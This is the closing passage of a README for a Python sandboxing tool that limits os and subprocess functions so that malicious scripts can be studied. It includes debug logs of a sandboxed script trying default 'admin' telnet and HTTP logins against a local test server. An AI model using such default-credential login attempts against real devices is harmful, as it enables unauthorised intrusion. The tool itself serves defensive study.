        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=1 writeables=1 exceptions=0

        --------------------------
        Received bytes=7 socket=<socket.socket fd=5, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('127.0.0.1', 2323), raddr=('127.0.0.1', 60864)>
        admin

        --------------------------


        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=1 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        - Jobs to try=0
        - Jobs to try=[]
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=0 writeables=1 exceptions=0

        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=0 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        trying logins over http ct=1514793899.8876593 ut=1514793896.7155027 val=3.172156572341919
        telnet_try_to_login_over_socket_with_http - socket logins readables=0 writeables=3 exceptions=0
        Socket result code=111
        - Jobs to try=0
        - Jobs to try=[]
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=1 writeables=1 exceptions=0

        --------------------------
        Received bytes=2 socket=<socket.socket fd=5, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('127.0.0.1', 2323), raddr=('127.0.0.1', 60864)>


        --------------------------

        127.0.0.1:2323 HP:WelcometoVeEXRV1:%:admin\x0d\x0aadmin\x0d\x0a

        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=1 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        - Jobs to try=0
        - Jobs to try=[]
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=0 writeables=0 exceptions=0

        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=0 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        - Jobs to try=0
        - Jobs to try=[]

    
    Stop it with: ``ctrl + c``
    
#.  Verify the Target Python Server received the socket command

    ::

        2018-01-01T08:04:47.254433 received msg=2 data=b'This could be an incoming exploit attack here' replying
    
    Stop it with: ``ctrl + c``

#.  Run the Original, Non-Nerfed Version

    ::

        (venv) root:/opt/nerfball# python /opt/badstuff/mod_plaintext.py 
        os._get_exports_list=posix
        os._exists name=_have_functions
        os._add function label=HAVE_FUTIMESAT fn=utime
        os._add function label=HAVE_FUTIMENS fn=utime
        os._add function label=HAVE_FUTIMES fn=utime
        os._add function label=HAVE_LUTIMES fn=utime
        os._add function label=HAVE_UTIMENSAT fn=utime
        os._exists name=fork
        os._exists name=spawnv
        os._exists name=execv
        os._exists name=spawnv
        os._exists name=spawnvp
        os._exists name=fspath
        File "/opt/badstuff/mod_plaintext.py", line 6913
        print "Debug: Skipping sock close due to keepalive"
        ^
        SyntaxError: Missing parentheses in call to 'print'. Did you mean print(t "Debug: Skipping sock close due to keepalive")?
        (venv) root:/opt/nerfball# 

Linting
-------

::

    pycodestyle --max-line-length=160 --exclude=venv,build,.tox,./badstuff/debug_internet_chemo.py,./nerfball/os.py,./nerfball/3_6_os.py,./nerfball/nerfed_3_6_os.py,./badstuff/py3_internet_chemo.py,./nerfball/importlib/machinery.py

Development
-----------

If you want to use python 3:

::

    deactivate; rm -rf ./nerfball/../venv; virtualenv -p python3 venv && source venv/bin/activate && pip install -e . && nerf-virtualenv.sh venv/bin/python && python -m unittest tests/test_os_module.py && export NERF_OS_POPEN=0 && export NERF_OS_REMOVE=0 && export NERF_SUBPROCESS_CALL=1 && python setup.py test

License
-------

Apache 2.0 - Please refer to the LICENSE_ for more details

.. _License: https://github.com/jay-johnson/nerfball/blob/master/LICENSE

